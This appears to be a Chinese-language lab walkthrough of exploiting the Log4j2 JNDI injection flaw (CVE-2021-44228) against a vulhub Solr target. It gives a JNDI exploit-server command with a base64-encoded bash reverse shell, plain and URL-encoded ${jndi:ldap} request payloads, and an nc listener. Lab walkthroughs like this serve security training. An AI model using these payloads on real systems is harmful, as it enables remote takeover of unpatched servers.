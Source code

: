 启动 LDAP 服务执行 JNDI 注入攻击的 jar 文件

```
┌──(root㉿kali)-[~]
└─# java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C bash -c "{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjYuMjQvNDQ0NCAwPiYx}|{base64,-d}|bash" -A kali.local
```

| 操作 | 描述                                                        |
| ---- | ----------------------------------------------------------- |
| -C   | 工具启动的 ldap 或 rmi 服务所提供的恶意代码所执行的系统命令 |
| -A   | 启动的 ldap 或 rmi 服务的 IP                                |

 >使用工具启动 LDAP 或 RMI 服务时，把反弹 shell 脚本指定为 LDAP 或 RMI 服务所提供的恶意代码所执行的系统命令，JNDI 远程加载 LDAP 或 RMI 服务端提供的恶意代码并执行，会触发反弹 shell 脚本建立会话。

![执行 JNDI 注入攻击的 jar 文件](./../../../../../images/vulhub/log4j/Apache%20Log4j2%20lookup%20JNDI%20%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-44228%EF%BC%89/%E6%89%A7%E8%A1%8C%20JNDI%20%E6%B3%A8%E5%85%A5%E6%94%BB%E5%87%BB%E7%9A%84%20jar%20%E6%96%87%E4%BB%B6.png)

> 根据版本号选择链接

利用 log4j2 漏洞，构造恶意的 jndi 请求

```
http://debian:8983/solr/admin/cores?action=${jndi:ldap://kali.local:1389/lhumat}
```

对 ${ } 及其内容，进行 URL 编码

```
http://debian:8983/solr/admin/cores?action=%24%7b%6a%6e%64%69%3a%6c%64%61%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%36%2e%32%34%3a%31%33%38%39%2f%6c%68%75%6d%61%74%7d
```

保留 LDAP 或 RMI 服务，创建侦听

```
┌──(root㉿kali)-[~]
└─# nc -nvlp 4444
```
